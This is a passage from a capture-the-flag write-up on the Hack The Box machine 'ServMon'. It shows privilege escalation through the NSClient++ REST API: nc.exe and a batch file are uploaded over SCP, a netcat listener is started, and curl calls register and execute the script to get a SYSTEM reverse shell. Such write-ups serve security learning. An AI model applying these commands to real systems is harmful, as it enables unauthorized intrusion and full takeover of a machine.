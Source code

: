 Next, we need to get my batch file and `nc.exe` onto _ServMon_. There a few different means to do that, but since we already have an SSH login, we'll use SCP, or secure copy.  

```bash
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ scp nc.exe nadine@10.10.10.184:/Temp
$ scp evil.bat  nadine@10.10.10.184:/Temp
```

On Kali, we'll start an `netcat` listener.

```bash
$ nc -lvnp 4444
```

Using the documentation, we run the following command to [add a script](https://docs.nsclient.org/api/rest/scripts/#add-script) that will call our batch file.

```bash
$ curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary @evil.bat
```

And finally, we will [execute the command](https://docs.nsclient.org/api/rest/queries/#command-execute) to run the script. 

```bash
$ curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=3m
```

Our listener successfully connects, and we now have system shell.

![](/assets/img/posts/htb/04-2020/root.png)

Let's capture the final flag on the Administrator's desktop.

![](/assets/img/posts/htb/04-2020/root-flag.png)

***

## Mitigation
